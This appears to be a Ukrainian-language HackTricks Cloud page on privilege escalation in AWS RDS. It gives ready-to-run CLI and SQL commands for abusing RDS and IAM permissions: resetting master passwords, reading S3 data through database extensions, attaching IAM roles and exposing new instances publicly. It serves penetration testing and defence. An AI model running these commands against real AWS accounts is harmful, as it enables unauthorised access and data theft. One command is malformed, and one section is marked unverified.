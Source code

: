 # AWS - Підвищення привілеїв в AWS RDS

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## RDS - Служба реляційних баз даних

Для отримання додаткової інформації про RDS перегляньте:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

З цим дозволом атакувальник може **змінювати пароль головного користувача** та вхід в базу даних:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Вам потрібно мати можливість **звертатися до бази даних** (зазвичай вони доступні лише зсередини мережі).
{% endhint %}

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) користувач з цим дозволом може підключитися до екземпляру БД.

### Зловживання дозволами IAM ролі RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Якщо під час виконання **`SELECT datname FROM pg_database;`** ви знаходите базу даних під назвою **`rdsadmin`**, ви знаєте, що ви знаходитесь всередині **AWS бази даних postgresql**.
{% endhint %}

Спочатку ви можете перевірити, чи ця база даних використовувалася для доступу до інших сервісів AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знаходите щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (існують інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозвіл на виконання **`aws rds describe-db-clusters`**, ви можете побачити там, чи є **кластер пов'язаний з якоюсь IAM-роллю** у полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших служб AWS**. На основі **назви ролі** (або якщо ви можете отримати **дозволи** ролі), ви можете **здогадатися**, який додатковий доступ є у бази даних.

Тепер, щоб **прочитати файл у відрах**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі дані AWS**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
У mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і існує користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.
{% endhint %}

У mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних готова до доступу до даних S3.

Також, якщо у вас є дозвіл на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи у кластері є будь-яка **пов'язана роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині відра**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Хакер з дозволами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляру RDS**. Це може дозволити хакеру **отримати доступ до чутливих даних** або змінити дані в екземплярі.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до конфіденційних даних або несанкціоновані зміни даних в екземплярі RDS.\
Зверніть увагу, що деякі бази даних вимагають додаткових конфігурацій, таких як Mysql, який потребує вказати роль ARN в групах параметрів також.

### `rds:CreateDBInstance`

Лише з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує та має прикріплену **роль IAM**. Він не зможе змінити пароль головного користувача, але може виявити новий екземпляр бази даних в Інтернеті:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Перевірити
{% endhint %}

Атакувальник з дозволами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленим вказаним роллю**. Після цього атакувальник може **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Профіль повинен існувати в вашому обліковому записі.
* У профілі повинна бути роль IAM, яку Amazon EC2 має дозвіл припускати.
* Назва профілю екземпляра та пов'язана назва ролі IAM повинні починатися з префіксу `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних в екземплярі RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з дозволами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого екземпляру RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Екземпляр бази даних повинен бути поза кластером для цього.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані модифікації даних в екземплярі RDS.

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний мерч PEASS & HackTricks**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
